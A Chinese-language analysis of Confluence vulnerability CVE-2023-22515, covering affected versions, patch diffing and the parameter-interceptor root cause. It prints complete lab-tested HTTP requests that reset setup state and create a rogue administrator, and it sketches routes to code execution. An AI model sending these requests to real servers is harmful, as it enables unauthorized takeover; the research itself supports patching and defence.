# Confluence CVE-2023-22515 漏洞分析 - 先知社区

Confluence CVE-2023-22515 漏洞分析

- - -

## 简介

2023年10月4日，Atlassian官方发布了对于CVE-2023-22515漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行Confluence安装流程并增加管理员账户。

该漏洞不影响8.0.0以前的版本。

影响版本

Confluence Data Center 和 Confluence Server

-   8.0.0 - - 8.0.4
-   8.1.0 - - 8.1.4
-   8.2.0 - - 8.2.3
-   8.3.0 - - 8.3.2
-   8.4.0 - - 8.4.2
-   8.5.0 - - 8.5.1

## 漏洞复现

使用vulhub的漏洞环境

[https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md)

0x01 覆盖 `bootstrapStatusProvider.applicationConfig.setupComplete`属性

```plain
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110153704-f19c6f38-7f9b-1.png)

0x02 添加管理员请求包

请求后正常会302跳转

```plain
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

response

```plain
HTTP/1.1 302 
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Confluence-Request-Time: 1698332831817
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
Set-Cookie: JSESSIONID=1E428B7ED069E414E71DCE1824419A91; Path=/; HttpOnly
Set-Cookie: seraph.confluence=425986%3A2718a7a9244706dd728e51b3df100e9bbc26c242; Max-Age=1209600; Expires=Thu, 09 Nov 2023 15:07:12 GMT; Path=/; HttpOnly
Location: /setup/finishsetup.action
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Content-Length: 0
Date: Thu, 26 Oct 2023 15:07:12 GMT
Connection: close
```

0x03 send 302跳转包即可添加成功

```plain
GET /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
X-Atlassian-Token: no-check
Referer: http://172.16.4.1:8090/setup/setupadministrator.action
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110153751-0d923362-7f9c-1.png)

## 漏洞分析

漏洞原因是：

> XWork allows the setting of complex parameters on an XWork action object. For example, a URL parameter of formData.name=Charles will be translated by XWork into the method calls getFormData().setName(“Charles”) by the XWork parameters interceptor. If getFormData() returns null, XWork will attempt to create a new object of the appropriate return type using its default constructor, and then set it with setFormData(newObject).  
> XWork 允许在 XWork 动作对象上设置复杂参数。例如，formData.name=Charles 的 URL 参数将由 XWork 转换为 XWork 参数拦截器的方法调用 getFormData（）.setName（“Charles”）。如果 getFormData（） 返回 null，XWork 将尝试使用其默认构造函数创建相应返回类型的新对象，然后使用 setFormData（newObject） 进行设置。
> 
> This leads to the potential for serious security vulnerabilities in XWork actions, as you can effectively call arbitrary methods on an Action object.  
> 这会导致 XWork 操作中出现严重的安全漏洞，因为您可以有效地在 Action 对象上调用任意方法。

diff

com.atlassian.struts2\_struts-support-1.1.0.jar 和 com.atlassian.struts2\_struts-support-1.2.0.jar

主要更改了SafeParametersInterceptor中的逻辑

查看配置该拦截器位于defaultStack

```plain
<interceptor name="params" class="com.atlassian.xwork.interceptors.SafeParametersInterceptor"/>
```

```plain
<interceptor-stack name="defaultStack">
              ...
              <interceptor-ref name="params"/>
```

com.atlassian.confluence\_confluence-8.5.1.jar 和 com.atlassian.confluence\_confluence-8.5.2.jar：

-   删除了`com.atlassian.confluence.core.actions.ServerInfoAction`和`com.atlassian.confluence.util.ServerInfoFilter`
    
-   修改`com.atlassian.confluence.impl.setup.BootstrapStatusProviderImpl` setter
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110153924-45469712-7f9c-1.png)

并设置setter去抛出异常来保证为readonly

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110153955-57c2bb0a-7f9c-1.png)

主要是针对漏洞复现中step1的修复

```plain
/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

删除了`/server-info.action`路由并限制了`bootstrapStatusProvider.applicationConfig.setupComplete`不可通过struts的机制调用setter来设置其为false来重新添加管理员

debug，断点下在改动很多的SafeParametersInterceptor

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154127-8e7a0626-7f9c-1.png)

retrieveParameters获取请求参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154143-97b24528-7f9c-1.png)

之后调用filterSafeParameters,对参数的安全性做过滤

isSafeParameterName方法中通过正则对一些危险的参数名做了过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154158-a0fd1644-7f9c-1.png)

-   `BLOCKED_PARAMETER_NAMES` 参数名不能包含actionErrors和actionMessages
-   `EXCLUDE_CLASS_PATTERN=".*class[^a-z0-9_].*"`
-   `SAFE_PARAMETER_NAME_PATTERN="\w+((\.\w+)|(\[\d+\])|(\['[\w.]*'\]))*"`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154213-a98af7cc-7f9c-1.png)

之后调用`isSafeComplexParameterName(key, action)`

```plain
private static boolean isSafeComplexParameterName(String key, Action action) {
        try {
            String initialParameterName = extractInitialParameterName(key);
            BeanInfo info = Introspector.getBeanInfo(action.getClass());
            PropertyDescriptor[] descs = info.getPropertyDescriptors();
            PropertyDescriptor[] var5 = descs;
            int var6 = descs.length;

            for(int var7 = 0; var7 < var6; ++var7) {
                PropertyDescriptor desc = var5[var7];
                if (desc.getName().equals(initialParameterName)) {
                    if (isSafeMethod(desc.getReadMethod())) {
                        return true;
                    }

                    log.info("Attempt to call unsafe property setter " + key + " on " + action);
                    return false;
                }
            }
        } catch (IntrospectionException var9) {
            log.warn("Error introspecting action parameter " + key + " for action " + action + ": " + var9.getMessage(), var9);
        }

        return false;
    }
```

现获取参数的第一个.之前的名称，例如a.b.c就是获取a，包含数组参数处理

```plain
private static String extractInitialParameterName(String key) {
    return key.contains("[") && (key.indexOf(".") <= 0 || key.indexOf("[") <= key.indexOf(".")) ? key.substring(0, key.indexOf("[")) : key.substring(0, key.indexOf("."));
}
```

之后获取当前请求的action的类信息去获取到包括父类中的所有的getter/ setter，之后拿属性名与a.b.c中的a做equals，

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154230-b3a2980a-7f9c-1.png)

如果存在该属性则之后调用isSafeMethod方法判断是否安全,需要setter有ParameterSafe注解或返回值类型有ParameterSafe注解才为true

```plain
private static boolean isSafeMethod(Method writeMethod) {
    boolean isAnnotationTrue = false;
    boolean isReturnTypeTrue = false;
    if (writeMethod != null) {
        isAnnotationTrue = writeMethod.getAnnotation(ParameterSafe.class) != null;
    }

    if (writeMethod.getReturnType() != null) {
        isReturnTypeTrue = writeMethod.getReturnType().getAnnotation(ParameterSafe.class) != null;
    }

    return isAnnotationTrue || isReturnTypeTrue;
}
```

以上，当这些检查都通过时才会把请求传递的参数被put到parameters中，乍一看其实过滤蛮严的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154249-bf66a776-7f9c-1.png)

但是后续走完this.before逻辑走入下一个interceptor时调用了父类的doIntercept方法

com/opensymphony/xwork2/interceptor/ParametersInterceptor#doIntercept

在this.setParameters使用OGNL来调用setter/getter

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154311-cc2f8874-7f9c-1.png)

关于利用

这里的点就是利用Struts2中使用OGNL来调用getter / setter的特性

需要找一个Action类，该类或其父类存在的属性中存在的值可以被利用，或者setter中可以触发某些恶意操作

回看poc

```plain
/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

找了com.atlassian.confluence.core.actions.ServerInfoAction类

```plain
<action name="server-info" class="com.atlassian.confluence.core.actions.ServerInfoAction">
    <result name="success" type="rawText">success</result>
</action>
```

继承了com/atlassian/confluence/core/ConfluenceActionSupport.class

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154330-d7703e68-7f9c-1.png)

其中有一个bootstrapStatusProvider属性，其存储的实现类是BootstrapStatusProviderImpl，之后调用getApplicationConfig方法获取`ApplicationConfig`对象，其中保存了setupComplete属性用于标识是否setUp完成，调用其setter改为false即可更改confluence的安装状态，进而重新添加管理员

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154346-e14df5a6-7f9c-1.png)

小结：

个人感觉问题在于SafeParametersInterceptor中处理后继续调用了父类struts2的ParametersInterceptor，导致了利用struts的特性，通过构造url访问action使得ognl调用恶意 getter/setter来覆盖原有属性导致的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154547-29393006-7f9d-1.png)

## RCE 方式

可以通过后台添加plugin的方式完成rce

这里延展漏洞的思路，从`ConfluenceActionSupport`入手，观察是否有哪些恶意属性的setter可以利用

debug，观察属性，找了一通确实有个能写文件的点

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154654-511f6da6-7f9d-1.png)

先判断是否为空，为空设置默认值为`initial`，之后调用setter，赋值属性存储到applicationConfig对象内

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154706-587b1bf4-7f9d-1.png)

调用`this.saveApplicationConfig();`

```plain
private void saveApplicationConfig() {
    try {
        this.applicationConfig.save();
    } catch (ConfigurationException var2) {
        log.error("Error writing state to confluence.cfg.xml", var2);
    }

}
```

最终调用ApplicationConfig#save

前面设置了几个配置的值，后面调用了`this.configurationPersister.save(this.getApplicationHome(), this.getConfigurationFileName());`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231110154726-64340f82-7f9d-1.png)

